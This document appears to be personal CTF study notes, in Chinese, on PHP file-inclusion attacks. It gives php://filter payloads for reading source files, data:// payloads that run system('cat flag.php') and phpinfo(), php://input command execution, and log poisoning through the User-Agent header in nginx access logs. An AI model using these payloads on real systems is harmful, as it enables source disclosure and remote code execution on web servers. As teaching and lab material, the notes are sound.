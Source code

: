 # 3.php伪协议/文件包含

## file函数

![img](D:\MarkDown\CTF\CTFNotes\Perfect317\WEB\images\20210110135324804-1721131032936.png)

1.是格式
2.是可选参数，有read和write，字面意思就是读和写
3.是过滤器。主要有四种：字符串过滤器，转换过滤器，压缩过滤器，加密过滤器。filter里可以用一或多个过滤器（中间用|隔开），这也为解题提供了多种方法，灵活运用过滤器是解题的关键。这里的过滤器是把文件flag.php里的代码转换（convert）为base64编码（encode）
4.是必选参数，后面写你要处理的文件名

php://filter/read=convert.base64-encode/resource=index.php

php://filter/convert.base64-encode/resource=index.php

在绕过一些WAF时有用



php://filter/resource=index.php



## data命令

text=data://text:text/plain,内容

```
？file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs=

PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs ===> <?php system('cat flag.php');

```

读取phpinfo()

```
data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b

data://text/plain,<?php%20phpinfo();?>
```

file:// — 访问本地文件系统
http:// — 访问 HTTP(s) 网址
ftp:// — 访问 FTP(s) URLs
php:// — 访问各个输入/输出流（I/O streams）
zlib:// — 压缩流
data:// — 数据（RFC 2397）
glob:// — 查找匹配的文件路径模式
phar:// — PHP 归档
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — 音频流
expect:// — 处理交互式的流

## 对php进行过滤

使用data协议

或者使用?file=Php://input任意命令执行

post提交对应命令

![image-20240716195808334](D:\MarkDown\CTF\CTFNotes\Perfect317\WEB\images\image-20240716195808334.png)

![image-20240716195817975](D:\MarkDown\CTF\CTFNotes\Perfect317\WEB\images\image-20240716195817975.png)

## 4.查看日志方法

nginx服务器的日志通常为/var/log/nginx/access.log

或/var/log/nginx/error.log

使用file读取日志文件

```
?file=/var/log/nginx/access.log
```

查看日志文件记录的是什么

例记录User-Agent,则可以在User-Agent中写入php语句实现命令执行